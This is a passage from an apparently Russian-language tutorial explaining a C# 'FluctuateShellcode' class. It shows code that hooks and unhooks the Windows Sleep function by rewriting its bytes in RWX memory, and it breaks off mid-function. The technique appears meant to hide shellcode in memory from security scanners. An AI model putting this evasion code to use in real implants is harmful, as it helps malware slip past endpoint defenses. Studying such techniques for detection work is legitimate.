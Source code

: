 ### FluctuateShellcode.DisableHook

Функция снятия хука – то есть перезапись трамплина содержимым оригинального `Sleep`, которое мы бережно храним в поле `sleepOriginBytes`. И снова можно использовать как P/Invoke, так и более модный D/Invoke для работы с API.

```cs
public bool DisableHook()
{
    bool unhooked = false;
    if (Win32.VirtualProtect(
        sleepOriginAddress,
        (uint)sleepOriginBytes.Length,
        0x40, // 0x40 = PAGE_EXECUTE_READWRITE
        out uint oldProtect))
    {
        Marshal.Copy(sleepOriginBytes, 0, sleepOriginAddress, sleepOriginBytes.Length);
        unhooked = true;
    }

    bool flushed = false;
    if (Win32.FlushInstructionCache(
        Process.GetCurrentProcess().Handle,
        sleepOriginAddress,
        (uint)sleepOriginBytes.Length))
    {
        flushed = true;
    }

    Win32.VirtualProtect(
        sleepOriginAddress,
        (uint)sleepOriginBytes.Length,
        oldProtect,
        out _);

    return unhooked && flushed;
}
```

Если мы изменяем код, уже загруженный в память, Microsoft говорит, что мы должны использовать функцию [FlushInstructionCache](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-flushinstructioncache) – в противном случае кеш ЦП может помешать ОС увидеть изменения.

### FluctuateShellcode.EnableHook

То же самое, как и `DisableHook`, только в этот раз мы перезаписываем исходный `Sleep` трамплином:

```cs
public bool EnableHook()
{
    bool hooked = false;
    if (Win32.VirtualProtect(
        sleepOriginAddress,
        (uint)trampoline.Length,
        0x40, // 0x40 = PAGE_EXECUTE_READWRITE
        out uint oldProtect))
    {
        Marshal.Copy(trampoline, 0, sleepOriginAddress, trampoline.Length);
        hooked = true;
    }

    bool flushed = false;
    if (Win32.FlushInstructionCache(
        Process.GetCurrentProcess().Handle,
```
